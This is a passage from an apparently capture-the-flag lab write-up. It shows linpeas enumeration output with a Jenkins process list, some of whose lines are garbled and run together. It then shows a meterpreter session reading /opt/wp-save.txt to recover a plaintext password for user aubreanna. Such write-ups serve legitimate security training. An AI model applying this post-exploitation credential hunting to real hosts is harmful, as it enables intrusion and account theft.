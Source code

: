 ```bash
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet6 fe80::42:d6ff:fe0f:a70e  prefixlen 64  scopeid 0x20<link>
        ether 02:42:d6:0f:a7:0e  txqueuelen 0  (Ethernet)
        RX packets 8  bytes 420 (420.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 19  bytes 1416 (1.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

```bash
================================( Processes, Cron, Services, Timers & Sockets )================================
[+] Cleaned processes
[i] Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
aubrean+  1506  0.0  0.0   1148     4 ?        Ss   04:08   0:00 /sbin/tini -- /usr/local/bin/jenkins.sh
aubrean+  1540  0.5 12.1 2587808 248012 ?      Sl   04:08   0:27 java -Duser.home=/var/jenkins_home -Djenkins.model.Jenkins.slaveAgentPort=50000 -jar /usr/share/jenkins/jenkins.war  0.0  0.1  28332  2344 ?        Ss   04:08   0:00 /usr/sbin/atd -f
message+   909  0.0  0.2  50060  4664 ?        Ss   04:08   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-onlyql     1099  0.2 11.2 1165848 229308 ?      Sl   04:08   0:14 /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid
```

I decided to take a look in the `/var/jenkins_home/` directory to see if I could find any configuration for the jenkins host but found that it didn't exist, leading me to believe it running in a docker container. Similarly, I looked under `/etc/` and found nothing related to jenkins, finally I looked under `/opt/` and stumbled on a `/opt/wp-save.txt` file that netted a set of credentialls for the `aubreanna` user.

```bash
meterpreter > cd /opt
meterpreter > ls
Listing: /opt
=============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40711/rwx--x--x   4096  dir   2020-08-03 03:01:12 +0000  containerd
100644/rw-r--r--  138   fil   2020-08-03 02:46:25 +0000  wp-save.txt

meterpreter > cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
meterpreter >
```
